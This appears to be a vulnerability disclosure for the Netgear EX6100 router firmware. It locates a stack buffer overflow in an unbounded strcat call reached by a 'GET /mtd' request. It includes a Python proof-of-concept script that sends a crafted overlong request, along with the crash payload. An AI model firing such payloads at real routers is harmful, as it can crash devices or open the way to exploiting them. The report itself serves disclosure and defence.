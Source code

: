 # Overview
Details of the vulnerability found in the netgear router ex6100.

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| ex6100    | V1.0.2.28_1.1.138    | https://www.downloads.netgear.com/files/GDC/EX6100/EX6100-V1.0.2.28_1.1.138.zip   |




# Vulnerability details
## 1. Vulnerability trigger Location
A stack-based buffer overflow vulnerability exists in the function sub_415EF8 at offset 0x004163D0, where the strcat function is called without proper bounds checking. A specially crafted GET request can trigger the overflow.
![Vulnerability Trigger Location](./assets/1.png)

## 2. Vulnerability  Analysis
- The vulnerability is triggered during the parsing of a user's GET request when the request header contains `GET /mtd`.
![second](./assets/2.png)
- Since the program uses memset(&v22[6], 0, 94);, the maximum size of the v22 buffer is effectively limited to 100 bytes. Therefore, if the data following the GET request exceeds this limit, a stack-based buffer overflow can occur.


# POC
## python script
```python
import socket

host = "172.17.0.170"
port = 80
file = "../crashes/id0"
f = open(file, "rb")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, port))

request = f.read()

s.send(request)

response = s.recv(4096)

print(response.decode())

s.close()
```
## id0

**Note the use of CRLF (Carriage Return and Line Feed) for line breaks.**
```
GET /mtdnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnGGGGGGGGGGAccept-Language:GGGGGGGGGGGGGGGGGGZGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGfGGGGGGGGGGGGGGGGGGGGGGGG\GGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG$GGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGG"


```

# Vulnerability Verification Screenshot
##  ex6100
![3.png](./assets/3.png)

# Discoverer
m202472188@hust.edu.cn.
